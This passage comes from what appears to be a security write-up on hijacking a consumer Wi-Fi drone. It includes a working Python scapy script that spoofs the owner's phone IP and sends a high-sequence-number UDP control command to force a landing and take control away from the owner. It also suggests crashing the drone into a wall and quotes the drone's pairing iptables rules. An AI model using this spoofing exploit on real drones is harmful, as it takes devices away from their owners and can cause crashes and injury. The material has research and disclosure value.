 ## Fake a land packet

What if we send a packet with a very high sequence number? Let's try it! To prevent multiple phones trying to control the drone, the drone only accepts packets from the source IP of the controller. (The controller is defined as the first device which starts sending control packets.) But since it's UDP, we can simply spoof the IP of my phone. I used the python module *scapy* to do this. Make sure you run this code as root, otherwise it won't work.
```python
from scapy.all import *
from time import sleep

srcIP = '192.168.1.2' # my phone's IP
dstIP = '192.168.1.1' # drone's IP
srcPort = 5556 # source port
dstPort = 5556 # destination port

payload = "AT*REF=1000000,290717696\r"
print payload
spoofed_packet = IP(src=srcIP, dst=dstIP) / UDP(sport=srcPort, dport=dstPort) / payload
send(spoofed_packet)
```
It takes over the drone and lands it. The owner has no longer control, and he can only get it back by restarting the app (in the case it will send a packet with seqNr 1, which resets the counter). For the demo I extended this code to first send 10 packets with 1000000+ sequence number, then wait for 5 seconds to show the owner has no longer control and then send a packet with seqNr 1 to restore control. You can access this code [here](code/1.py).

Of course we can send other packets in the same way. We can rotate the drone, don't let it land (by constantly sending take-off packets with seqNr 1) or set the velocity to maximum, and smash the drone to the wall. I used the land command for the demo, because that's the easiest (and probably the safest) thing to show.

## Security control?

You could say: that was too easy, there must be some sort of security control which can be enabled by the owner to prevent this attack. In fact, there is, and it's called 'Pairing'. It can be enabled in the settings of the app. Since we have full telnet access to the drone, it was easy to find the setup script of this feature under `/bin/pairing_setup.sh`. This script sets up the following IP tables rules:
```bash
NULL_MAC=00:00:00:00:00:00
if [ $MAC_ADDR != $NULL_MAC ]
then
# Clearing all rules
iptables -P INPUT ACCEPT
iptables -F
# Allowing only owner's traffic
iptables -A INPUT -m mac --mac-source $MAC_ADDR -j ACCEPT
# allowing ICMP (ping), ftp and nfs traffic for everyone.
# Telnet is only allowed for paired user
iptables -A INPUT --protocol icmp -j ACCEPT
#iptables -A INPUT --protocol tcp --dport 23 -j ACCEPT
iptables -A INPUT --protocol tcp --dport 21 -j ACCEPT
iptables -A INPUT --protocol tcp --dport 2049 -j ACCEPT
# Blocking all incoming traffic by default
iptables -P INPUT DROP
else
# Clearing all rules
iptables -F
# Allows incoming connections from anywhere outside
iptables -P INPUT ACCEPT
fi
```